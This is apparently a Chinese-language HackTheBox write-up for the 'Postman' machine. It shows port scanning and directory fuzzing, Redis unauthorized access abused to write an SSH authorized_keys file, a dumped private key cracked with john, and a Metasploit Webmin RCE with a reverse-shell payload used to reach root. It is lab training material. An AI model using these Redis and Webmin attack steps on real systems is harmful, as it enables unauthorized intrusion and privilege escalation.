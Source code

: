 ```yaml
---
title: Postman(Redis未授权访问)
date: 2021-12-24 11:31:17
tags: HackThebox
top: true
categories: 未授权访问漏洞
---
```


## 信息收集

发现目标开放了22、80、6379等常见端口

```bash
root💀kali)-[~/Desktop/Scan-Scripts]
└─# ./nmap.sh 10.10.10.160
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-30 07:32 EST
Nmap scan report for 10.10.10.160
Host is up (0.30s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.85 seconds
```

<!--more-->

我们访问一下web服务，发现只是一个普通的web页面而已![在这里插入图片描述](https://img-blog.csdnimg.cn/31925c3c4c634d4c8dfa4491466b77e0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们模糊一下网站路径

```bash
┌──(root💀kali)-[~/Desktop/Scan-Scripts]
└─# dirsearch -u "http://10.10.10.160" -e * -x404,403,500

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )                                                                                                                        
                                                                                                                                               
Extensions: nmap.sh | HTTP method: GET | Threads: 30 | Wordlist size: 8979

Output File: /root/.dirsearch/reports/10.10.10.160/_21-11-30_07-47-35.txt

Error Log: /root/.dirsearch/logs/errors-21-11-30_07-47-35.log

Target: http://10.10.10.160/
                                                                                                                                               
[07:47:35] Starting: 
[07:48:35] 301 -  310B  - /css  ->  http://10.10.10.160/css/                                                                             
[07:48:44] 301 -  312B  - /fonts  ->  http://10.10.10.160/fonts/                                                             
[07:48:48] 301 -  313B  - /images  ->  http://10.10.10.160/images/                        
[07:48:48] 200 -    2KB - /images/
[07:48:50] 200 -    4KB - /index.html                                                                                                 
[07:48:51] 200 -    3KB - /js/                                                                                                              
[07:48:52] 301 -  309B  - /js  ->  http://10.10.10.160/js/                   
[07:49:25] 301 -  313B  - /upload  ->  http://10.10.10.160/upload/                                                                       
[07:49:27] 200 -    8KB - /upload/                                                                          
                                                                                                                       
Task Completed
```

<!--more-->

我们发现一个upload目录，访问发现只有一些图片而已
![在这里插入图片描述](https://img-blog.csdnimg.cn/b3c145006edb4713a933104a79cae707.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
web攻击无果，那我们将注意力转移到redis数据库上，尝试是否存在未授权访问漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/f8887a8690934a50aefef93ab24f104a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用

我们首先将我们的ssh-key写入到key.txt文件中
![在这里插入图片描述](https://img-blog.csdnimg.cn/30cc35f7466642ae8fc852db4f111dc6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
再把key.txt文件内容写入redis缓存中
![在这里插入图片描述](https://img-blog.csdnimg.cn/3f83ac49ad7546059774aba3c56a198e.png)

```bash
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis"
10.10.10.160:6379> config set /var/lib/redis/.ssh
(error) ERR Wrong number of arguments for CONFIG set
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> exit
```

我们尝试登录到该主机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/795ba910f639419d8987d79f0ec483b2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们上传linpeas.sh脚本到目标主机上发现，主机的/opt目录上存在一份私钥备份

```bash
redis@Postman:~$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

我们将其下载到本机，并使用ssh2john.py将其哈希导出
![在这里插入图片描述](https://img-blog.csdnimg.cn/66c4d071bea24d2bb4891441037f3a8d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后使用john进行破解得到密码，得到密码computer2008，登录到Matt账户
![在这里插入图片描述](https://img-blog.csdnimg.cn/40e53a09c8a549a19313e7fb22d13443.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 提权root

我们访问10000端口发现是个webmin应用程序，在EDB发现存在RCE漏洞并在MSF中集成
![在这里插入图片描述](https://img-blog.csdnimg.cn/83ea6c04c24c457e896f109ef6a6cfbf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/ae16ec96fd1d44ceac7112af658419af.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们直接使用第二个并填写好参数后，得到root权限

```bash
msf6 > use 2
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(linux/http/webmin_packageup_rce) > show options 

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf6 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf6 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_packageup_rce) > show options 

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   computer2008     yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.160     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf6 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf6 exploit(linux/http/webmin_packageup_rce) > set lhost 10.10.14.9
lhost => 10.10.14.9
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_packageup_rce) > exploit
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/6427bab560c04677b571daeed8ba6947.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
